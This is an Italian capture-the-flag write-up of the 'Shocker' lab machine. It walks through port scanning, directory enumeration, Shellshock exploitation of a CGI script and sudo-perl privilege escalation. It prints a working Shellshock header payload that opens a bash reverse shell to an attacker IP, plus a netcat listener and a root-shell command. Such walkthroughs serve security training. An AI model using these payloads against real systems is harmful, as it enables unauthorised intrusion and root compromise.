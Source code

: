 # Shocker

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap per conoscere le porte aperte e i servizi che girano su di esse.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.17
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Le porte aperte sono le seguenti:

* **Porta 2222:** OpenSSH 7.2p2
* **Porta 80** Apache httpd 2.4.18

```text
Nmap scan report for 10.10.10.56
Host is up (0.077s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=9/18%OT=80%CT=1%CU=40237%PV=Y%DS=2%DC=I%G=Y%TM=65085D9
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M53CST11NW6%O2=M53CST11NW6%O3=M53CNNT11NW6%O4=M53CST11NW6%O5=M53CST1
OS:1NW6%O6=M53CST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

In questa fase cerco di capire se qualcuno di questi servizi servizi è configurato in modo errato o se presenta vulnerabilità note.

### 1) Porta 2222 OpenSSH 7.2p2

La vulnerabilità trovata:
  * OpenSSH 2.3 < 7.7 - Username Enumeration

Questa vulnerabilità ci permette di fare username enumeration [CVE-2018-15473](https://github.com/Sait-Nuri/CVE-2018-15473).

Non mi interessa utilizzare questa vulnerabilità per il momento, quindi proseguo.

### 2) Porta 80 Apache 2.4.18

Non trovo nulla di interessante.

### 3) Direcotory enumeration

Utilizzo il comando dirb, dal quale ottengo il seguente risultato:

```text
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Sep 18 15:36:07 2023
URL_BASE: http://10.10.10.56/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.56/ ----
+ http://10.10.10.56/cgi-bin/ (CODE:403|SIZE:294)                                            
+ http://10.10.10.56/index.html (CODE:200|SIZE:137)                                          
+ http://10.10.10.56/server-status (CODE:403|SIZE:299)                                       

-----------------
END_TIME: Mon Sep 18 15:42:00 2023
DOWNLOADED: 4612 - FOUND: 3
```

Provo con il comando gobuster utilizzando la wordlist _directory-list-2.3-medium.txt_, cercando file con estensione _sh_ e _cgi_.

```text
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.56/cgi-bin/ -x sh,cgi
```

Il risutlato è il seguente

```text
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              cgi,sh
[+] Timeout:                 10s
===============================================================
2023/09/18 16:13:31 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 119]
```

Scarico lo script user.sh:

<p align="center">
  <img src="/Immagini/Linux-Box/Shocker/shocker-1.png" />
</p>

Facendo una rapida ricerca, basandomi sul nome della macchina, mi imbatto nella vulnerabilità shellshock. Per questo motivo utilizzo uno script nmap per verificare che il sito sia vulnerabile ad essa:

```text
nmap 10.10.10.56 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh
```

Il risultato è il seguente:


```text
Nmap scan report for 10.10.10.56
Host is up (0.080s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_      http://seclists.org/oss-sec/2014/q3/685
```

**Quindi è vulnerabile!**

### 4) Vulnerabilità Shellshock

Per sfruttare la vulnerabilità utilizzo la guida presente in questo [sito](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi).

Avvio burp e intercetto la richiesta _/cgi-bin/user.sh_:

<p align="center">
  <img src="/Immagini/Linux-Box/Shocker/shocker-2.png" />
</p>

Dopodichè modifico il campo _User Agent_ nel seguente modo:

```text
() { ignored;};/bin/bash -i >& /dev/tcp/10.10.14.13/4444/ 0>&1
```
Prima di inviare la richiesta, avvio un listener sulla porta 4444:

```text
nc -nlvp 4444
```

<p align="center">
  <img src="/Immagini/Linux-Box/Shocker/shocker-5.png" width="180" height="290"/>
</p>

**SBAM! Sono dentro.**

<p align="center">
  <img src="/Immagini/Linux-Box/Shocker/shocker-3.png" />
</p>

## Privilege Escalation

Per prima cosa controllo i permessi dell'utente:

<p align="center">
  <img src="/Immagini/Linux-Box/Shocker/shocker-4.png" />
</p>

Quindi posso lanciare un comando perl come root.

Facendo una ricerca su questo [sito](https://gtfobins.github.io/gtfobins/perl/) capisco che posso elevare i miei privilegi attraverso questo comando:

```text
sudo perl -e 'exec "/bin/sh";'
```

**Eseguendolo ottengo il contenuto di root.txt**
